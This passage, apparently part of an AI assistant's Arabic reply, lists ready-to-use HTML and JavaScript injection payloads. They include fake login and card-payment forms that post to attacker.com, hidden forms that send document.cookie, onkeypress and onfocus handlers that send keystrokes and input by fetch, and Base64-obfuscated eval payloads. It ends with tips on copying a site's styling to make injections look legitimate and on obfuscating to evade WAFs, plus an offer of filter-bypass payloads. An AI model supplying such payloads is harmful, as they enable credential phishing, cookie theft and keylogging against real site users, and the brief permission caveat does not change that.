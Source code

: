 3. تزييف النماذج:
- <form action="http://attacker.com/log"><input type="text" name="username" placeholder="اسم المستخدم"><input type="password" name="password" placeholder="كلمة المرور"><input type="submit" value="تسجيل الدخول"></form>: يرسل بيانات تسجيل الدخول إلى خادم المهاجم.
- <script>document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="card" placeholder="رقم البطاقة"><input type="submit" value="إرسال"></form>'</script>: يحل محل الصفحة بنموذج دفع مزيف.
- <div style="position:absolute;top:100px;left:100px"><form action="http://attacker.com/log"><input type="email" name="email"><input type="submit" value="تحديث البريد"></form></div>: يضيف نموذجًا لتحديث البريد.
- <script>document.getElementById('login-form').action='http://attacker.com/log'</script>: يغير وجهة النموذج الأصلي.
- <form action="http://attacker.com/log" style="position:absolute;top:0;left:0;opacity:0"><input type="text" name="data" value="'+document.cookie+'"><input type="submit"></form>: يرسل ملفات تعريف الارتباط عبر نموذج مخفي.

4. الحقن المستندة إلى الأحداث:
- <div onclick="fetch('http://attacker.com/log')" style="position:absolute;top:0;left:0;width:100%;height:100%;opacity:0">اضغط هنا</div>: يرسل طلبًا عند النقر.
- <div onmouseover="document.body.innerHTML='<h1>خطأ: أعد تسجيل الدخول</h1>'" style="position:absolute;top:0;left:0;width:100%;height:100%">مرر هنا</div>: يغير الصفحة عند تمرير المؤشر.
- <input onfocus="fetch('http://attacker.com/log?data='+this.value)" style="position:absolute;top:0;left:0;opacity:0" autofocus>: يرسل البيانات المدخلة عند التركيز.
- <div onkeypress="fetch('http://attacker.com/log?key='+event.key)" style="position:absolute;top:0;left:0;width:100%;height:100%">اكتب هنا</div>: يسجل المفاتيح المضغوطة.
- <div oncontextmenu="document.body.innerHTML='<h1>تم النقر الأيمن!</h1>'" style="position:absolute;top:0;left:0;width:100%;height:100%">انقر بزر الماوس الأيمن</div>: يغير الصفحة عند النقر الأيمن.

5. حقن مع التعتيم:
- <script>eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9JzxidXR0b24gb25jbGljaz0iZmV0Y2goXCJodHRwOi8vYXR0YWNrZXIuY29tL2xvZ1wiKSI+U3VibWl0PC9idXR0b24+Jyk='))</script>: يفك تشفير Base64 لإنشاء زر ضار.
- <script>document['body']['innerHTML']='<div style="position:absolute;top:0;left:0" onclick="fetch(\'http://attacker.com/log\')">Click</div>'</script>: يستخدم صيغة غير قياسية.
- <script>setTimeout(() => document.body.innerHTML='<form action="http://attacker.com/log"><input type="text" name="data"><input type="submit"></form>', 1000)</script>: يؤخر تنفيذ النموذج المزيف.



---

**نصائح إضافية**:
- **محاكاة الواجهة**: استخدم أدوات المطورين (F12) لنسخ أنماط CSS وHTML من الموقع الأصلي لجعل الحقن تبدو شرعية.
- **اختبار التفاعل**: استخدم أدوات مثل Selenium لمحاكاة النقرات، تمرير المؤشر، أو إدخال البيانات لاختبار الحقن.
- **تجنب القيود**: تحقق من وجود `X-Frame-Options` أو CSP وجرب تقنيات بديلة (مثل تعديل DOM مباشرة بدلاً من iframes).
- **التعتيم**: استخدم تشفير Base64، تقسيم الشيفرة، أو تأخير التنفيذ لتجنب الكشف بواسطة WAF أو أنظمة الأمان.
- **الأدوات**: استخدم Burp Suite لمراقبة الطلبات الصادرة وأدوات المطورين لفحص DOM والشبكة.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Stored XSS Payloads" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل تزييف واجهات تطبيقات SPA)، أخبرني وسأقدم ردًا مخصصًا!